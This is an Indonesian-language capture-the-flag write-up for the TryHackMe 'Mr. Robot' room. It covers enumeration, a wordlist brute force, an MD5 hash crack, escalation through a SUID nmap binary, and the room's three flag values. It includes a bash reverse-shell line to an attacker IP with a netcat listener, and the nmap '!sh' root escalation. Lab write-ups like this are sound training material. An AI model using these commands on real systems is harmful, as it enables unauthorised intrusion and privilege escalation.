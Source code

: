 # 🕵️ Mr. Robot CTF – TryHackMe

**Nama:** Jonathan Jethro  
**Tanggal:** 4 Mei 2025  
**Link Room:** [https://tryhackme.com/room/mrrobot](https://tryhackme.com/room/mrrobot)

---

## 📌 Pendahuluan

Mr. Robot adalah CTF dari TryHackMe yang terinspirasi dari serial TV populer.  
Tujuan utama adalah mendapatkan ketiga flag tersembunyi melalui tahapan:

- Web enumeration  
- Eksploitasi login  
- Privilege escalation

---

## 🔍 Enumerasi

### Nmap Scan

```bash
nmap -sC -sV -oA scans/initial 10.10.180.146
```
Port terbuka:

80 (HTTP)

443 (HTTPS)

Situs menampilkan tema Mr. Robot.

robots.txt
```bash
Copy
Edit
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Ditemukan wordlist fsocity.dic dan flag pertama.

## 🎯 Eksploitasi Login
Setelah brute-force menggunakan fsocity.dic, ditemukan:

Username: elliot

Namun login berhasil dengan metode:

Menemukan halaman vulnerable upload.

Mengirim reverse shell (bash payload).

Mendengarkan dengan netcat.

```
# Reverse shell payload
bash -i >& /dev/tcp/10.9.0.247/4444 0>&1

# Listener (attacker)
nc -lvnp 4444
```
Shell berhasil dengan user: daemon.

## 🧑‍💻 Privilege Escalation ke robot
Ditemukan file password:

```
cat /home/robot/password.raw-md5
```
Isi:
```
c3fcd3d76192e4007dfb496cca67e13b
```
Didekripsi menggunakan CrackStation:

Password: abcdefghijklmnopqrstuvwxyz

Login:
```
su robot
```
Berhasil menjadi user robot, ditemukan flag kedua.

🔝 Privilege Escalation ke Root
User robot tidak punya akses sudo.
Lalu dicari file SUID:
```
find / -perm -4000 -type f 2>/dev/null
```
Ditemukan:
```
/usr/local/bin/nmap
```
Masuk ke mode interaktif:
```
/usr/local/bin/nmap --interactive
nmap> !sh
```
Berhasil mendapatkan shell sebagai root dan mengambil flag ketiga.

## 🏁 Flag Capture
Flag	Lokasi	Isi
1	/key-1-of-3.txt	073403c8a58a1f80d943455fb30724b9
2	/home/robot/key-2-of-3.txt	822c73956184f694993bede3eb39f959
3	/root/key-3-of-3.txt	04787ddef27c3dee1ee161b21670b4e4

## ✅ Kesimpulan
CTF ini mengajarkan teknik penting dalam pentesting:

Enumerasi file tersembunyi dan wordlist

Reverse shell manual

Cracking password MD5

Privilege escalation via SUID binary (nmap --interactive)

📸 Screenshots
Lihat folder screenshots/ untuk gambar pendukung flag.

📄 Versi PDF
Tersedia juga dalam format PDF untuk dilihat secara offline.
